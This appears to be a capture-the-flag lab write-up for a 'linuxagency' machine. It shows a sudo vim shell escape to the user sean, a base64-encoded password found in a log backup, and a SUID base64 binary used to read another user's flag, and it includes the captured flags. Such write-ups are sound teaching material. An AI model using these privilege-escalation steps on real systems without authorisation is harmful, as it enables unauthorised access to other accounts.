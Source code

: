 # Sean's Flag

- We can run vim as sean.
- Started a shell as sean from vim.

```console
ken@linuxagency:~$ sudo -l
Matching Defaults entries for ken on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ken may run the following commands on linuxagency:
    (sean) NOPASSWD: /usr/bin/vim
ken@linuxagency:~$ sudo -u sean  vim -c ':!/bin/bash'

sean@linuxagency:/home/ken$ cd
sean@linuxagency:~$ ls

```

- Hint says to search in attendance register, which may be `/var/log/`
- Searched for flag and found it

```console
sean@linuxagency:/var/log$ grep -rn "sean{" .  2>/dev/null
./syslog.bak:98675:Jan 12 02:58:58 ubuntu kernel: [    0.000000] ACPI: LAPIC_NMI (acpi_id[0x6d] high edge lint[0x1]) : sean{4c5685f4db7966a43cf8e95859801281} VGhlIHBhc3N3b3JkIG9mIHBlb
mVsb3BlIGlzIHAzbmVsb3BlCg==

```

# Penelope's  flag

- While searching for Sean's flag we saw a base64 code which on decoding gives Penelope's password

```console
❯ echo "VGhlIHBhc3N3b3JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==" | base64 -d
The password of penelope is p3nelope
```


```console
penelope@linuxagency:~$ cat flag.txt
penelope{2da1c2e9d2bd0004556ae9e107c1d222}
```

# Maya's Flag

- In the home directory of Penelope we can see a base64 SUID which we can run as maya.


```console
penelope@linuxagency:~$ ls -l
total 56
-rwsr-sr-x 1 maya     maya     39096 Jan 12  2021 base64
-rw-r--r-- 1 penelope penelope  8980 Jan 12  2021 examples.desktop
-r-------- 1 penelope penelope    43 Jan 12  2021 flag.txt
penelope@linuxagency:~$ ./base64 /home/maya/flag.txt | ./base64 -d
maya{a66e159374b98f64f89f7c8d458ebb2b}
```
